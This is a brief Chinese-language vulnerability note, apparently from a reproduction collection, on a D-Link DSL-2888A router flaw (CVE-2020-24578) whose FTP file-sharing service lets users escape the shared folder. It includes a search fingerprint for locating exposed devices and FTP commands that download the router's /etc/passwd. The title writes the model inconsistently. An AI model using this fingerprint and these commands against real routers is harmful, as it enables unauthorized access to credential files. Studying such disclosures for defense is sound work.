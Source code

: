 # D-Link DSL-28881A FTP配置错误 CVE-2020-24578

## 漏洞描述

D-Link DSL-2888A路由器具有文件共享功能，该功能允许用户通过将外部驱动器插入路由器来与其他网络用户共享文件。然后通过FTP（文件传输协议）共享。但是，FTP服务允许网络用户转义共享文件夹以访问路由器文件系统并下载位于根文件夹中的其他文件。

## 漏洞影响

```
D-Link DSL-2888A
```

## 网络测绘

```
body="DSL-2888A"
```

## 漏洞复现

前提为使用 **D-Link DSL-28881A 信息泄露 CVE-2020-24577** 获取FTP凭证

以下提供了下载“ passwd”的示例：
在FTP客户端上使用以下命令以有效的凭据（从Finding-2获得）连接到FTP服务。
使用以下命令导航到根文件夹。

```plain
ftp xxx.xxx.xxx.xxx
ftp> cd etc 
ftp> get passwd
```

![](./images/202202162225017.png)